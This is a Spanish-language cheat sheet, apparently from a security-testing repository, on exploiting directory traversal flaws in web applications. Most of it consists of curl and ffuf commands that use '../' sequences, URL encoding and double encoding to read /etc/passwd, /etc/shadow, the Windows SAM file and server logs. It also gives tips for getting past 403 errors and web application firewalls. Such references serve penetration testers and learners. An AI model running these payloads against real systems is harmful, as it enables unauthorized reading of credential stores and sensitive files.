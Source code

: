 # CheatSheet: Directory Traversal

## Objetivo
Explorar y explotar vulnerabilidades de Directory Traversal para acceder 
a archivos y directorios sensibles fuera del directorio raíz permitido.

## Herramientas
1. Burp Suite
2. curl
3. Dirbuster
4. FFuF

## Procedimiento y comandos
1. Paso 1: Identificar puntos de entrada: Examinar parámetros vulnerables en URLs o formularios:

```bash
curl -X GET "http://{HOST}/vulnerable?file=../../../etc/passwd"
```

2. Paso 2: Probar codificaciones comunes:

* Codificación de URL (por ejemplo, %2e%2e%2f para ../):
```bash	
curl -X GET "http://{HOST}/vulnerable?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd"
```
* Doble codificación:
```bash	
curl -X GET "http://{HOST}/vulnerable?file=%252e%252e%252fetc%252fpasswd"
```
3. Comprobar diferentes sistemas operativos:
	
* Windows: 
```bash
curl -X GET "http://{HOST}/vulnerable?file=..\\..\\..\\Windows\\System32\\config\\SAM"**
```
* Linux: 
```bash
curl -X GET "http://{HOST}/vulnerable?file=../../../../../etc/shadow"
```
4. Automatización: Usar herramientas como Burp Suite con secuencias de ataque en Intruder o fuzzers:
```bash
 ffuf -u http://{HOST}/vulnerable?file=FUZZ -w payloads.txt 
```

```bash
ffuf -w <(sed 's|{FILE}|/etc/passwd|g' payload.txt) -u http://target/FUZZ
```
## Troubleshooting
1. Errores HTTP 403 (Forbidden):

	- Probar diferentes codificaciones para bypass de restricciones, como doble o triple codificación.

	- Asegurarse de que los encabezados HTTP enviados (User-Agent, Referer, etc.) no sean bloqueados por reglas de seguridad del servidor.

	- Verificar si el servidor aplica filtros basados en caracteres o patrones específicos.

2. Archivos inaccesibles por permisos:

	- Intentar acceder a rutas públicas como logs o configuraciones de aplicación:
	```bash
	curl -X GET "http://{HOST}/vulnerable?file=../../../../../var/log/apache2/access.log"**
	```
	- Buscar vulnerabilidades adicionales para escalar privilegios y leer archivos restringidos.

3. Detección de WAF (Web Application Firewall):

	- Usar herramientas como **WAFW00F** para identificar y analizar posibles restricciones.

	- **wafw00f http://{HOST}**

	- Cambiar la estructura de la solicitud o el User-Agent para evitar que sea bloqueada.

4. Sin respuestas úteiles en el contenido devuelto:

	- Comprobar si el servidor devuelve errores genéricos o vacíos. En tal caso, usar **Burp Suite** o herramientas similares para interceptar y analizar más a fondo las respuestas.

	- Analizar si las solicitudes deben incluir **tokens o cookies** específicas para ser procesadas correctamente.


